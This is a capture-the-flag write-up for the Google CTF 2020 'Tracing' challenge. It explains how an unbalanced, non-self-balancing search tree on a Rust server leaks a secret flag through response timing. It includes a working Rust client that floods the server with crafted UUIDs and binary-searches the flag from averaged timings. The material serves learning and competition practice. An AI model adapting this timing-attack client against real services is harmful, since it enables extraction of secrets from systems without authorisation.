

## CTF 2020 Tracing writeup

Well, its been a while since ctf google competition has ended (August 2020) but I just discovered it and thought I should give it a go.
Soo here it goes:


The challenge is under the pwn category and it is considered an easy one (but awards 151 points instead of the 50 that most easy challenges are worth)

The description of the challenge is the following:
```
An early prototype of a contact tracing database is deployed for the developers to test,
but is configured with some sensitive data. See if you can extract it.
```

Google provides a zip file that has a basic rust implementation of a server and an implementation of a b-tree.

### Understanding the problem
We can assume that the purpose of using rust here is to make sure that buffer overflow attacks are impossible. Neither the webserver nor b-tree implementation seem to have any unsafe code that we could exploit.

We can formulate though a solution, if we track down the logic the webserver is following.

First of all we can see that the server loads up some flag (thats what we're tasked to find to complete the challenge) which is 16 bytes and casts it to a Uuid.
```rust
 let checks: Vec<Uuid> = std::env::args()
        .skip(1)
        .map(|arg| Uuid::from_slice(arg.as_bytes()).unwrap())
        .collect();
```


Every new connection to the server spawns a thread that handles it and performs the following:
  * Read N bytes untill the reading channel is closed from the client
  * Split the N bytes into chunks of 16 bytes
  * Create N/16 Uuids and insert them into a fresh b-tree
  * Write back to the client the number of inserted Uuids
  * Search the input flag into the b-tree
  * Close the connection
  
Highlighting those in code:
```rust
...
    // receive bytes
    let bytes = (&stream).bytes().map(|b| b.unwrap());
    // split to chunks
    let chunks = {
        use futures::stream::StreamExt;
        bytes.chunks(16)
    };

    let mut count: u32 = 0;
    // create collection of Uuids
    let ids = chunks.filter_map(|bytes| {
        count += 1;
        Uuid::from_slice(&bytes).ok()
    });
    // Use ids to populate a fresh binary tree
    let tree = {
        use futures::stream::StreamExt;
        ids.collect::<BinarySearchTree<_>>()
    }
    .await;
    // respond with a number
    stream.write_all(&count.to_be_bytes()).await?;

    // perform check
    checks
        .iter()
        .filter(|check| tree.contains(check))
        .for_each(|check| warn!("Uploaded IDs contain {}!", check));
    // shutdown connection
    stream.shutdown(std::net::Shutdown::Both)?;
...
```

As we can see from the above, we can only alter the content of the b-tree and have no way to retrieve anything other than the number of elements we inserted into it.

### Craft a theoritical solution
What allows to solve this challenge instead is the timing in which the server responds and closes the connection.
The server writes back to the client the moment it has finished inserting the values into the b-tree and closes the connection only after a complete search for the flag into the tree.

Which means that the only attack angle here is **timing**.

A quick check on the binary tree implementation shows that this is **not** a self-balancing b-tree, which means that we can create a totally unbalanced b-tree and therefore alter the searching time on demand.

A simple example on how we could leverage that and search for the flag is the following:

Assuming that the flag is a value between 1-100, inserting into the binary tree values 50,51,.....80 will create the following tree:




if the flag is between 0-50 the search operation will be O(1) and if it is on the upper bound the operation becomes O(n)

We can then measure the time from the moment the server responds till it shuts down the connection.
We repeat the same thing but in reverse this time. We insert 50,49,...20.
which will be O(1) for values higher than 50 and O(n) for the lower bound.

Measuring again will give us 3 possible results.
If our flag is between 50-100 it will take more time to be searched through the first tree and if it is between 0-50 it will take more time on the second tree. IF the time is identical we just found the flag first try (very unlikely). By noting that down we can inference in which half of the key space our flag is on. Congrats, we just performed the first step of Binary search, then we only have to rinse and repeat couple of times till we get really close to the flag value.

### Implement solution
In this exact problem we have 2^ (16*8) = 2^128 flags that we have to binary search through them.

For the sake of getting more familiar with rust I created a client in rust that would perform those checks for me.
What is very convinient is that we could use a ```u128``` to represent each Uuid. Therefore we can easily do numeric operations without a care in the world.

Therefore I use one function that:
  * takes a u128 which is the middle point in my binary search and a sign ("+" or "-") 
  * initiates a connection to the server
  * writes 1000 consecutive (in increasing or decreasing order based on the sign) Uuids to the server
  * waits for the response
  * initiates a time instance
  * and returns it when the connection is closed

```rust
fn check_mid(middle: u128, sign: &str) -> std::io::Result<std::time::Instant> {
    let mut stream = TcpStream::connect("some.server:1337")?;
    for i in 0..1000 {
        if sign == "+" {
            stream.write(&(middle + i).to_be_bytes())?;
        } else {
            stream.write(&(middle - i).to_be_bytes())?;
        }
    }
    // close writing channel and make server create b-tree
    stream.shutdown(Shutdown::Write)?;
    let mut buffer: [u8; 4] = [1, 1, 1, 1];
    // read response
    stream.read(&mut buffer)?;
    //start measuring the time
    let now = Instant::now();
    // return the time instance for evaluation
    Ok(now)
}
```

Then I used this function to perform my binary search throughout the flag space.

```rust
fn main() {
    // start at the middle of our 16byte key space
    let mut middle: u128 = u128::MAX / 2;
    let mut i = 2;
    while i < 127 {
        let mut right: u128 = 0;
        let mut left: u128 = 0;
        // get accumulated elapsed time from communicating with the server
        for _ in 0..200 {
            right += check_mid(middle, "+")
                .expect("connection failed")
                .elapsed()
                .as_nanos();
            left += check_mid(middle, "-")
                .expect("connection failed")
                .elapsed()
                .as_nanos();
        }
        // move the middle point according to the statistics gathered
        // this is the essense of the binary search
        if right > left && right.wrapping_sub(left) > 20000 {
            middle = middle + (u128::MAX / 2u128.pow(i));
            i += 1;
        } else if left > right && left.wrapping_sub(right) > 20000 {
            middle = middle - (u128::MAX / 2u128.pow(i));
            i += 1;
        }
        // print iteration of the binary search, u128 , uuid and characters of current iteration
        println!(
            "middle {} : {} : {:?}  : {:?}",
            i,
            middle,
            Uuid::from_bytes(middle.to_be_bytes()),
            middle
                .to_be_bytes()
                .iter()
                .map(|&byte| byte as char)
                .collect::<Vec<char>>()
        );
    }
}
```

It is worth noting that the measurement of time is significant to the binary search path. Random spikes in the network latency can completely ruin our results. Therefore I'm repeating the same request 200 times in an attempt to eliminate the network variable.

In addition, after a quick research I found that google's VM is located in europe-west1-d datacenter and I ran my program from a VM there to further decrease the random latency.


Thank god binary search works this way, and we only need to do 128 requests to search all of the key space of the flag.
After a long while, we can obtain the flag.

In occasional errors, we can restart the app adjusting the ```i``` and ```middle``` for the search to continue from where it failed.
